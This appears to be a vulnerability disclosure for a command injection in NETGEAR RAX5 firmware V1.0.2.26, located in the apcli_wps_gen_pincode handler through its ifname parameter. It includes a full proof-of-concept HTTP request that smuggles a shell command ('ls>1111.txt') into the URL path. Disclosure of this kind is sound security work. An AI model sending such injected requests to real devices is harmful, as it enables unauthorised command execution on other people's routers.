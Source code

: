 # NETGEAR RAX5 V1.0.2.26 Command Injection (apcli_wps_gen_pincode)

## Product Information

- Device: NETGEAR RAX5
- Firmware Version: V1.0.2.26
- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.downloads.netgear.com/files/GDC/RAX5/RAX5_V1.0.2.26_1.zip or https://www.netgear.com/support/download/?model=RAX5

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `apcli_wps_gen_pincode` function via the `ifname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/apcli_wps_gen_pincode/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls%3E1111.txt`  (ls>1111.txt)command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/apcli_wps_gen_pincode/;ls%3E1111.txt;/dev0/1 HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)

